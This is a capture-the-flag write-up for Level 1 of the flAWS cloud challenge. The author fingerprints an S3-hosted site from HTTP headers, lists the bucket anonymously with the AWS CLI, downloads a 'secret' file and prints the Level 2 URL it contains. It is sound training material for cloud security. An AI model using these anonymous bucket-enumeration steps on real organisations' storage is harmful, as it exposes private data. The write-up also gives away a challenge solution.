

# Level 1

Status: Done Assign: Dcyberguy



### Enumeration

Looking at the http headers for the `flaws.cloud` url, I noticed it contained the `AmazonS3` as it's Server type.

```r
curlie -v http://flaws.cloud/
* Host flaws.cloud:80 was resolved.
* IPv6: (none)
* IPv4: 52.92.162.203, 52.92.250.99, 52.218.216.250, 52.92.179.227, 52.92.203.11, 3.5.78.29, 52.92.128.3, 52.92.152.227
*   Trying 52.92.162.203:80...
* Connected to flaws.cloud (52.92.162.203) port 80
GET / HTTP/1.1
Host: flaws.cloud
User-Agent: curl/8.5.0
Accept: application/json, */*

HTTP/1.1 200 OK
x-amz-id-2: AzgvXgVUGy1qoBC28WHS2yED/aXHlDdtgCQ0NaoGw2gnFbgkePWF+9vVeC6D+//LkqFXdotc8jg=
x-amz-request-id: 1ZASQKZSHYP1Q0Z6
Date: Sun, 01 Mar 2026 20:47:03 GMT
Last-Modified: Thu, 22 Feb 2024 02:32:41 GMT
ETag: "cf2618d97d3a311b9b1453a4d4e02930"
Content-Type: text/html
Content-Length: 2861
Server: AmazonS3
```

Now I know the contents of the web page is hosted in AWS as a Static Web Content.

Since I don't have valid credentials I will check whether I can enumerate Amazon S3 with creds using the `--no-sign-request` flag.

```bash
aws s3 ls s3://flaws.cloud --no-sign-request
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2024-02-21 21:32:41       2861 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```

Found a file called `secret-dd02c7c.html`. Looks like aa file that would be stored the `Secret`.

#### Download the Secret file

```bash
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html .  --no-sign-request
download: s3://flaws.cloud/secret-dd02c7c.html to ./secret-dd02c7c.html
❯ ls
     secret-dd02c7c.html 
```

Now that I have the file, let's read it's content.

```bash
<html>
   2   │     <head>
   3   │         <title>flAWS</title>
   4   │         <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
   5   │         <style>
   6   │             body { font-family: Andale Mono, monospace; }
   7   │             :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000; 
   8   │             border-width: 1px; border-style: solid;} 
   9   │         </style>
  10   │     </head>
  11   │ <body 
  12   │   text="#00d000" 
  13   │   bgcolor="#000000"  
  14   │   style="max-width:800px; margin-left:auto ;margin-right:auto"
  15   │   vlink="#00ff00" link="#00ff00">
  16   │     
  17   │ <center>
  18   │ <pre >
  19   │  _____  _       ____  __    __  _____
  20   │ |     || |     /    ||  |__|  |/ ___/
  21   │ |   __|| |    |  o  ||  |  |  (   \_ 
  22   │ |  |_  | |___ |     ||  |  |  |\__  |
  23   │ |   _] |     ||  _  ||  `  '  |/  \ |
  24   │ |  |   |     ||  |  | \      / \    |
  25   │ |__|   |_____||__|__|  \_/\_/   \___|
  26   │ </pre>
  27   │ 
  28   │ <h1>Congrats! You found the secret file!</h1>
  29   │ </center>
  30   │ 
  31   │ 
  32   │ Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>

```

Found the URL for `Level 2`. Head over there ------>
